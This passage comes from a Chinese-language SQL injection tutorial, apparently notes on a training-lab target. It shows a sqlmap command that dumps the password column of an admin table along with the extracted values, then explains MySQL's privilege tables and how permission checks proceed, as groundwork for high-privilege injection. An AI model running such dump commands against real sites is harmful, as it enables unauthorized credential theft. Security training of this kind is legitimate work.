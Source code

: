 



接下来是查询`password`字段里存放的数据，输入：

```
python sqlmap.py -u "http://pu2lh35s.ia.aqlab.cn/?id=1" -D maoshe -T admin -C password --dump
```

结果如下：

![](https://pic1.imgdb.cn/item/6472c1e9f024cca1731152a3.jpg)

sqlmap扫到`password`字段里存放的数据为：

`hellohack zkaqbanban`

​	

​	

# SQL注入—高权限注入

## MySQL 权限介绍

MySQL服务器通过权限表来控制用户对数据库的访问，权限表存放在 `mysql` 数据库中，`mysql` 库中存在4个控制权限的表：`user` 表，`db` 表，`tables_priv` 表，`columns_priv` 表。

​	

### 系统权限表

- User 表：存放用户账户信息以及全局级别（所有数据库）权限，决定了来自哪些主机的哪些用户可以访问数据库实例，如果有全局权限则意味着对所有数据库都有此权限
- Db 表：存放数据库级别的权限，决定了来自哪些主机的哪些用户可以访问此数据库
- Tables_priv 表：存放表级别的权限，决定了来自哪些主机的哪些用户可以访问数据库的这个表
- Columns_priv 表：存放列级别的权限，决定了来自哪些主机的哪些用户可以访问数据库表的这个字段
- Procs_priv 表：存放存储过程和函数级别的权限

	

### MySQL 权限级别

- 全局性的管理权限： 作用于整个 MySQL 实例级别
- 数据库级别的权限： 作用于某个指定的数据库上或者所有的数据库上
- 数据库对象级别的权限：作用于指定的数据库对象上（表、视图等）或者所有的数据库对象

	

### mysql权限表的验证过程

1. 从 user 表中的 Host, User, Password 这3个字段中判断连接的 ip、用户名、密码是否存在，存在则通过验证
2. 通过身份认证后，进行权限分配
3. 按照 user，db，tables_priv，columns_priv 的顺序进行验证
4. 先检查全局权限表 user，如果 user 中对应的权限为 Y，则此用户对所有数据库的权限都为 Y，将不再检查 db、tables_priv、columns_priv
5. 如果为 N，则到 db 表中检查此用户对应的具体数据库并得到 db 中为 Y 的权限
6. 如果 db 中为 N，则检查 tables_priv 中此数据库对应的具体表，取得表中的权限 Y，以此类推
